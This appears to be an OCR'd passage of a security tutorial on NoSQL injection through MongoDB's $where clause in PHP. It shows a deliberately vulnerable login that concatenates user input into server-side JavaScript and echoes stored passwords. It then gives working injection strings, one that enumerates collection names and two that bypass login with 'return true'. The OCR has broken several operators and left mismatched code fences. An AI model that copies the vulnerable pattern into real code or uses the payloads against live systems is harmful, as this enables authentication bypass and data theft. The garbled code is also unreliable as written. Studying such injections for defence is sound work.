````sql
```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];
$function = "
function() {
	var username = '".$username."';
	var password = '".$password."';
	if(username == 'admin' && password == 'admin123'){
		return true;
	}else{
		return false;
	}
}";
$query = new MongoDB\Driver\Query(array(
    '$where' =$function
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count 0) {
	foreach ($result as $user) {
		$user = ((array)$user);
		echo "Login Success".PHP_EOL;
		echo 'username:' . $user['username'].PHP_EOL;
		echo 'password:' . $user['password'].PHP_EOL;
	}
} else {
	echo 'Login Failed';
}
?>
```
#### Before MongoDB 2.4

- As shown below, after sending the following data, if there is an echo, all collection names in the current database will be obtained
````sql
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```
#### After MongoDB 2.4
- After MongoDB 2.4, the db attribute cannot be accessed, but it should be possible to construct a universal password. If the following data are sent at this time
````sql
username=1&password=1';return true//
or
username=1&password=1';return true;var a='1
```
![Insert the picture description here](https://img-blog.csdnimg.cn/6e5e39a1dd2040c7bf5c10dad77a3deb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
- The PHP data processed in the backend is as follows

```php

array(
    '$where' ="
    function() {
		var username = '1';
		var password = '1';return true;var a='1';
		if(username == 'admin' && password == '123456'){
			return true;
		}else{
			return false;
		}
````
